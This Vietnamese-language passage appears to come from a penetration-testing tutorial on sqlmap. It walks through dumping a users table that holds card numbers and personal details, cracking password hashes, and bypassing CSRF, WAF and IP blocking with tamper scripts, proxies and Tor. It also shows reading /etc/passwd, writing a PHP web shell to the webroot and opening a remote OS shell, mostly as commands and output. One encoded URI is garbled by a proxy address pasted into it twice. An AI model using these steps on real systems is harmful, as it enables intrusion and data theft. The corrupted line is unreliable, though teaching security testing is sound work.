| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

Ví dụ tìm thấy table `users` trong `testdb` và `master`, `USER_PRIVILEGES` trong `information_schema`, và `user` trong `mysql`. 

Có thể tìm tên column theo từ khóa, ví dụ `pass`:

```bash
sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

Kết quả ví dụ có các column `password` trong `owasp10.accounts` và `master.users`, cùng `Password` trong `mysql.user` và `mysql.servers`.

### Password Enumeration and Cracking

Sau khi nhận diện table có password (ví dụ `master.users`), dump table bằng `-T`:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |
```

SQLMap nhận diện các giá trị có thể là password hash, có thể lưu hash vào file tạm để xử lý bằng tool khác hoặc chạy dictionary-based attack. SQLMap chọn hash method, cho dùng dictionary mặc định/tùy chỉnh và có thể thử các password suffix phổ biến (việc này chậm hơn).

Ví dụ cho thấy SQLMap tự crack hash và ghép password rõ vào dữ liệu table. Hash cracking chạy multiprocessing dựa trên số core máy người dùng. SQLMap hỗ trợ 31 hash algorithm và kèm dictionary 1,4 triệu entry tổng hợp từ các password phổ biến trong những vụ rò rỉ công khai. Nếu password hash không được chọn ngẫu nhiên, khả năng crack tự động khá cao.

### DB Users Password Enumeration and Cracking

Ngoài credential trong table ứng dụng, có thể dump system table chứa credential riêng của database (ví dụ connection credential). Dùng `--passwords`:

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

SQLMap lấy password hash của database user, cho phép lưu hash ra file tạm hoặc chạy dictionary-based attack. Ví dụ, SQLMap crack được password `testpass` của user `root`.

**Tip:** Kết hợp `--all` với `--batch` để tự động chạy toàn bộ enumeration và cung cấp chi tiết mọi dữ liệu có thể truy cập. Quá trình này có thể rất lâu; cần tự tìm dữ liệu cần quan tâm trong output file.

## Bypass Web Application Protections

Trong tình huống lý tưởng, target không có protection ngăn automated exploitation. Nếu có, việc chạy automation tool có thể gặp vấn đề. SQLMap tích hợp nhiều cơ chế hỗ trợ bypass.

### Anti-CSRF Token Bypass

Một trong những lớp phòng thủ đầu tiên chống automation là anti-CSRF (Cross-Site Request Forgery) token trong HTTP request, đặc biệt là request tạo ra khi gửi web form. Mỗi request cần token hợp lệ, thường chỉ lấy được sau khi user thực sự truy cập và dùng page. Ý tưởng ban đầu là ngăn malicious link gây hành động ngoài ý muốn cho user đã đăng nhập (ví dụ thêm administrator user với credential định sẵn); cơ chế này cũng vô tình làm khó automation không mong muốn.

Option quan trọng để bypass là `--csrf-token`. Chỉ định tên token parameter có trong request data, SQLMap tự parse response của target để tìm token mới và dùng cho request tiếp theo. Nếu không chỉ định option này nhưng parameter có infix phổ biến như `csrf`, `xsrf`, `token`, SQLMap sẽ hỏi có tự cập nhật token trong các request sau không.

```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

### Unique Value Bypass

Một số web application yêu cầu giá trị trong parameter định trước phải duy nhất. Cơ chế này tương tự anti-CSRF nhưng không cần parse nội dung page. Dùng `--randomize` để tạo giá trị mới cho parameter trước mỗi request:

```bash
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

### Calculated Parameter Bypass

Một cơ chế khác yêu cầu giá trị parameter được tính từ parameter khác; thường một parameter chứa message digest (ví dụ `h=MD5(id)`) của parameter kia. Dùng `--eval` để chạy Python code hợp lệ ngay trước khi gửi request:

```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

### IP Address Concealing

Để che IP address hoặc xử lý việc target blacklist IP hiện tại, có thể dùng proxy hoặc Tor. Chỉ định proxy bằng `--proxy` (ví dụ `--proxy="socks4://177.39.187.70:33283"`). Với danh sách proxy, dùng `--proxy-file`; SQLMap lần lượt thử và chuyển sang proxy kế tiếp khi gặp vấn đề như IP bị blacklist.

Tor cung cấp anonymization, IP có thể xuất hiện như một trong nhiều Tor exit node. Khi Tor được cài local, SOCKS4 proxy service thường ở port `9050` hoặc `9150`. Dùng `--tor`, SQLMap tự tìm port phù hợp. Dùng thêm `--check-tor` để kết nối `https://check.torproject.org/` và xác nhận response có `Congratulations`.

### WAF Bypass

Trong test ban đầu, SQLMap gửi payload có vẻ độc hại bằng parameter không tồn tại (ví dụ `?pfov=...`) để kiểm tra WAF (Web Application Firewall). Nếu có protection giữa user và target, response khác đáng kể so với response gốc. Ví dụ ModSecurity có thể trả `406 - Not Acceptable`.

Nếu phát hiện protection, SQLMap dùng thư viện bên thứ ba `identYwaf` với signature của 80 WAF solution để nhận diện. Dùng `--skip-waf` để bỏ heuristic test và giảm noise.

### User-agent Blacklisting Bypass

Khi gặp vấn đề ngay từ đầu (ví dụ HTTP 5XX), một khả năng là User-Agent mặc định của SQLMap bị blacklist (ví dụ `sqlmap/1.4.9 (http://sqlmap.org)`). Dùng `--random-agent` để thay nó bằng giá trị ngẫu nhiên từ tập User-Agent của browser.

**Lưu ý:** Nếu phát hiện protection, có thể xuất hiện thêm vấn đề với target và các security mechanism khác. Protection được phát triển liên tục, làm giảm không gian thao tác của attacker.

### Tamper Scripts

Một cơ chế phổ biến của SQLMap để bypass WAF/IPS là `tamper` script: Python script sửa request ngay trước khi gửi, thường để vượt protection. Ví dụ, một script thay `>` bằng `NOT BETWEEN 0 AND #` và `=` bằng `BETWEEN # AND #`, qua đó bypass một số protection đơn giản (thường nhắm XSS) trong mục đích SQLi.

Có thể nối nhiều script bằng `--tamper` (ví dụ `--tamper=between,randomcase`); chúng chạy theo priority định sẵn để tránh hành vi ngoài ý muốn. Một số script thay cú pháp SQL (ví dụ `ifnull2ifisnull`), số khác không quan tâm nội dung bên trong (ví dụ `appendnullbyte`). Phần lớn script thay payload nhưng có thể sửa mọi phần của request.

| Tamper script | Mô tả |
|---|---|
| `0eunion` | Thay `UNION` bằng `e0UNION`. |
| `base64encode` | Base64-encode mọi ký tự trong payload. |
| `between` | Thay `>` bằng `NOT BETWEEN 0 AND #`, `=` bằng `BETWEEN # AND #`. |
| `commalesslimit` | Đổi MySQL `LIMIT M, N` thành `LIMIT N OFFSET M`. |
| `equaltolike` | Thay `=` bằng `LIKE`. |
| `halfversionedmorekeywords` | Thêm MySQL versioned comment trước mỗi keyword. |
| `modsecurityversioned` | Bọc toàn query bằng MySQL versioned comment. |
| `modsecurityzeroversioned` | Bọc toàn query bằng MySQL zero-versioned comment. |
| `percentage` | Thêm `%` trước mỗi ký tự, ví dụ `SELECT` thành `%S%E%L%E%C%T`. |
| `plus2concat` | Thay `+` bằng function `CONCAT()` tương ứng của MsSQL. |
| `randomcase` | Đổi ngẫu nhiên chữ hoa/thường trong keyword, ví dụ `SELECT` thành `SEleCt`. |
| `space2comment` | Thay dấu cách bằng comment. |
| `space2dash` | Thay dấu cách bằng `--`, chuỗi ngẫu nhiên và newline (`\n`). |
| `space2hash` | Thay dấu cách MySQL bằng `#`, chuỗi ngẫu nhiên và newline (`\n`). |
| `space2mssqlblank` | Thay dấu cách MsSQL bằng blank character hợp lệ được chọn ngẫu nhiên. |
| `space2plus` | Thay dấu cách bằng `+`. |
| `space2randomblank` | Thay dấu cách bằng blank character hợp lệ được chọn ngẫu nhiên. |
| `symboliclogical` | Thay `AND`/`OR` bằng toán tử `&&`/`||`. |
| `versionedkeywords` | Bọc keyword không phải function bằng MySQL versioned comment. |
| `versionedmorekeywords` | Bọc từng keyword bằng MySQL versioned comment. |

Dùng `--list-tampers` để xem toàn bộ tamper script và mô tả. Cũng có thể viết script tùy chỉnh cho dạng attack riêng, ví dụ second-order SQLi.

### Miscellaneous Bypasses

Hai cơ chế khác cần biết:

- **Chunked transfer encoding:** bật `--chunked` để chia POST body thành các “chunk”. Từ khóa SQL bị blacklist được tách giữa các chunk để request có thể đi qua mà không bị nhận diện.
- **HTTP parameter pollution (HPP):** chia payload giữa nhiều giá trị cùng tên parameter (ví dụ `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`). Target sẽ nối các giá trị nếu nền tảng hỗ trợ (ví dụ ASP).

## OS Exploitation

SQLMap có thể tận dụng SQL Injection để đọc/ghi file trên local system bên ngoài DBMS. Nếu có privilege phù hợp, nó cũng có thể thử cung cấp khả năng thực thi command trên remote host.

### File Read/Write

Phần đầu của OS Exploitation qua SQLi là đọc/ghi dữ liệu trên hosting server. Đọc phổ biến hơn ghi vì file-write bị giới hạn chặt trong DBMS hiện đại và có thể dẫn đến system exploitation. Ví dụ với MySQL, DB user cần privilege `LOAD DATA` và `INSERT` để nạp file vào table rồi đọc table:

```sql
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
```

Không phải lúc nào cũng cần DBA privilege để đọc dữ liệu, dù yêu cầu này ngày càng phổ biến. Nguyên tắc tương tự áp dụng cho database khác; có DBA privilege làm tăng khả năng có file-read privilege.

### Checking for DBA Privileges

Kiểm tra DBA privilege bằng `--is-dba`:

```bash
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19
```

Như chúng ta thấy, nếu kiểm tra điều đó trên một trong những bài tập trước, ta sẽ nhận được kết quả "current user is DBA: False", nghĩa là ta không có quyền truy cập DBA. Nếu ta thử đọc một tập tin bằng SQLMap, ta sẽ nhận được kết quả tương tự như sau:

```bash
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

```bash
sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```

Lần này ta thấy `current user is DBA: True`: True, có nghĩa là ta có thể có đặc quyền đọc các tập tin cục bộ.

### Reading Local Files

Dùng `--file-read` để đọc file local qua SQLMap:

```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/
```

Trong ví dụ, SQLMap không lấy được nội dung bằng kỹ thuật đầu, cảnh báo và fallback sang UNION đơn giản hơn. Sau khi xác nhận tải thành công, file remote `/etc/passwd` được lưu ở `~/.sqlmap/output/www.example.com/files/_etc_passwd`. Có thể dùng `cat` để xem file local; remote file đã được truy xuất.

### Writing Local Files

Ghi file lên hosting server bị giới hạn hơn trong DBMS hiện đại vì có thể ghi Web Shell lên remote server để thực thi code và chiếm quyền. Do đó DBMS thường tắt file-write mặc định và yêu cầu DBA privilege. Ví dụ MySQL cần tắt cấu hình `--secure-file-priv` để cho phép ghi file bằng `INTO OUTFILE`; OS user cũng cần quyền ghi vào directory đích.

Nhiều web application vẫn cần DBMS ghi dữ liệu ra file. Dùng `--file-write` và `--file-dest`; trước hết tạo PHP Web Shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Thử ghi vào `/var/www/html/`, Apache webroot mặc định. Nếu chưa biết webroot, SQLMap có thể tự tìm:

```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"


        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

SQLMap xác nhận file đã ghi bằng cách so kích thước file local và remote. Sau đó gọi PHP shell và chạy command mẫu:

```bash
curl "http://www.example.com/shell.php?cmd=ls+-la"
```

Ví dụ xác nhận Web Shell đã được ghi lên remote server và command có thể chạy trên host.

### OS Command Execution

Sau khi xác nhận có thể ghi PHP shell, có thể thử OS shell tích hợp của SQLMap thay vì tự ghi shell. SQLMap dùng nhiều kỹ thuật để tạo remote shell qua SQLi: ghi shell remote; ghi SQL function thực thi command và trả output; hoặc query thực thi OS command trực tiếp như `xp_cmdshell` của Microsoft SQL Server.

Dùng `--os-shell` để yêu cầu SQLMap mở OS shell:

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell


        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

Ví dụ SQLMap mặc định dùng UNION nhưng không trả output (`No output`). Có thể chỉ định kỹ thuật khác có khả năng trả output tốt hơn, ví dụ Error-based bằng `--technique=E`:

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E


        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

Lần này SQLMap mở được interactive remote shell. Nó hỏi ngôn ngữ web server (PHP), rồi web server document root. Có thể chọn `common location(s)` để SQLMap tự tìm; đây là lựa chọn mặc định và sẽ tự được chọn khi dùng `--batch`.

